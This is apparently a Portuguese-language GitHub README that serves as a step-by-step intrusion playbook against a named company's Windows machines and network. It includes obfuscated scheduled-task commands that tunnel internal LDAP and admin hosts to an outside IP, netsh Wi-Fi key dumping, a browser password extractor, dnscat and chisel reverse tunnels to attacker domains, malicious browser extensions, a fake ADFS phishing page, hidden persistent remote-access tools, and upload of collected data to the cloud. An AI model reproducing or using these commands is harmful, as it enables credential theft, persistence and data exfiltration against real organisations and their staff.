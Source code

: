 # Bonus
```
sch""tasks /create /tn "pac1" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1335 -t 10.1.0.69:389" /sc hourly /mo 4 
sch""tasks /create /tn "pac2" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1336 -t 10.1.0.70:389" /sc hourly /mo 4
s\ch""tasks /create /tn "pac4" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1337 -t infraascode.localiza.com:443" /sc hourly /mo 4
sch""tasks /create /tn "pac5" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1338 -t netadmin.localiza.com:443" /sc hourly /mo 4
```

# Guia de Execução

1 Ferramentas
Baixar o [1drive.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) com todas as ferramentas de uma vez\

# Android Wi-Fi
instalar um leitor de qrcode no seu celular \
https://www.howtogeek.com/818934/how-to-find-wi-fi-password-on-android/ \
https://android.gadgethacks.com/how-to/see-passwords-for-wi-fi-networks-youve-connected-your-android-device-0160995/

# Mapeamento
1. Criar a pasta tmp em **C:\tmp** Nela estarão os arquivos que você deve coletar ao final, comprimindo a pasta e enviando para nuvem
2. Baixar Ferramentas\
  2.1 O Arquivo [EXECUCAO.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) contém as pastas:\
      - Extencoes (Extenções Browser Chrome e Edge)\
      - deploycat (tunel)\
      - browser_pwd_extract (extrator de senhas browser que é o arquivo **chromium_based_browsers.exe**)\
3. Mapeamento (Cada comando abaixo eh executado no **CMD do windows**)\
   - 3.1 Captura de MAC Address\
       echo ">>>>>>>>>>>>>>> MAC <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && getmac >> C:\tmp\output.txt && cls && echo “done”
   - 3.2 Captura de configurações de rede\
      echo ">>>>>>>>>>>>>>> NetConf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && ipconfig /all >> C:\tmp\output.txt && cls && echo “done”
   - 3.3 Captura de informações de sistema\
      echo ">>>>>>>>>>>>>>> Sysinf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && systeminfo >> C:\tmp\output.txt && cls && echo “done”
   - 3.4 Criação de pasta temporária e Captura de Senhas WiFi (**Aplicável para notebook**)
      for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear >> C:\tmp\output.txt && cls && echo “done”

# PWD Browsers
4. Captura de Informações dos Browsers\
   4.1 Certifique-se de que existe a pasta C:\tmp\    \
   4.2 Baixe / Extraia  o ZIP [chromiumaster.zip](https://1drv.ms/u/s!AjfrkQYLG_fYelG61GupNU6K5qI?e=ZWqoUe) também presente no arquivo EXECUCAO2.zip e execute o programa chromium_based_browsers.exe. 

# Reverse Tunnel
5. Tunnel
- 5.1 DNS Cat
   Baixar [arquivo](https://github.com/tu74nkamon/guide/blob/main/connect.ps1) e colocar em C:\Users\"user"\connect
\

Executar em powershell (dentro da pasta C:\Users\"user"\connect) os seguintes comandos:
- Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
- . ./connect.ps1
- Start-Connect -d "n1.cwdlab.com" -s "172.16.1.197"

- 5.2  Chisel Tunnel
   Download no [1drive](https://1drv.ms/f/s!AjfrkQYLG_fYgSX-FsDPaSIMLnfq?e=lS5hOx) ou [github](https://github.com/tu74nkamon/guide/blob/main/VENUS.zip) e alterar em cada maquina diferente a porta para o intervalo de 1080 ate 1090 (Executar no CMD do windows)\


   PC1) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1080:socks\
   PC2) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1081:socks\
   PC3) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1082:socks\
   ...\
   PC8) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1087:socks
   
# Extenção   
6. Extensão de Browser\
   6.1 Escolha uma versão das Extenções e instale nos navegadores CHROME e EDGE\
   6.2 Você pode verificar se o dominio eh alcançável por:\
        - Versao1 [https://happyteachersdayquotes.com/verify](https://happyteachersdayquotes.com/verify)\
        - Versao2 [https://cwdlab.com/verify](https://cwdlab.com/verify)\
        - Versao3 [https://gitauth.co/verify](https://gitauth.co/verify)

# Raspberry
7. Lembrar de plugar o raspberry em algum ponto de rede\

# o365
8. Captura de Credenciais de dominio\
 Acessar https://amz.run/6YAy ou https://adfs.aufoglass.com/adfs/ls/?wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline e pedir alguém para logar na página nossa do ADFS (Microsoft)
 
 
 # Tools Acesso Remoto
 lembrar de baixar, instalar e configurar (logar em contas de acesso permanente) as ferramentas de acesso remoto.
- 1 GetScreen 
 Faça login com a conta fornecida para acesso permanente \
 ![image](https://user-images.githubusercontent.com/70968631/231205769-25e27ba5-b2d9-4a11-b938-cbcb929302a1.png)
 
 Desabilite as notificações\
 ![image](https://user-images.githubusercontent.com/70968631/231206995-7d9c8709-f4af-4e32-8ae6-bd1d1038c610.png)
 
- 2 Teamviewer
Instale o programa e logue em computadores e contatos com a conta fornecida\
![image](https://user-images.githubusercontent.com/70968631/231211994-491e7898-a76b-4915-b32d-dfe316566960.png)

 #Comprima a pasta **C:\tmp** e envie para cloud 
